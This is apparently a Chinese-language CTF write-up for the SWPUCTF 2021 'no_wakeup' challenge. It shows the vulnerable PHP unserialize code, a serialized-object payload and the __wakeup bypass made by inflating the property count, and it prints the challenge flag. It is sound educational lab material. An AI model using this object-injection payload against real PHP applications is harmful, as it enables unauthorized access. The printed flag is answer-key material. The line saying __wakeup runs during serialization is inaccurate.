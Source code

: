 ```yaml
---
title: '[SWPUCTF 2021 新生赛]no_wakeup'
date: '2025-05-26T20:55:18+08:00'
weight: 
draft: false
description: '[SWPUCTF 2021 新生赛]no_wakeup'
---
```


题目代码：

```php
<?php

header("Content-type:text/html;charset=utf-8");
error_reporting(0);
show_source("class.php");

class HaHaHa{


        public $admin;
        public $passwd;

        public function __construct(){
            $this->admin ="user";
            $this->passwd = "123456";
        }

        public function __wakeup(){
            $this->passwd = sha1($this->passwd);
        }

        public function __destruct(){
            if($this->admin === "admin" && $this->passwd === "wllm"){
                include("flag.php");
                echo $flag;
            }else{
                echo $this->passwd;
                echo "No wake up";
            }
        }
    }

$Letmeseesee = $_GET['p'];
unserialize($Letmeseesee);

?>
```

构造 payload：`O:6:"HaHaHa":2:{s:5:"admin";s:5:"admin";s:6:"passwd";s:4:"wllm";}`

```php
<?php
class HaHaHa{
    public $admin;
    public $passwd;
}

$hahaha = new HaHaHa();
$hahaha->admin = "admin";
$hahaha->passwd = "wllm";
echo serialize($hahaha);
```

注意到 `__wakeup()` 函数在序列化时会对 `$passwd` 进行 `sha1()` 哈希化（`$this->passwd = sha1($this->passwd);`），**当对象属性的个数大于真实属性的个数时可以绕过 `__wakeup()`**，所以修改 payload 为 `O:6:"HaHaHa":3:{s:5:"admin";s:5:"admin";s:6:"passwd";s:4:"wllm";}`

得到 flag：NSSCTF{29521992-bf99-49b9-bf0a-cb20a3c92231}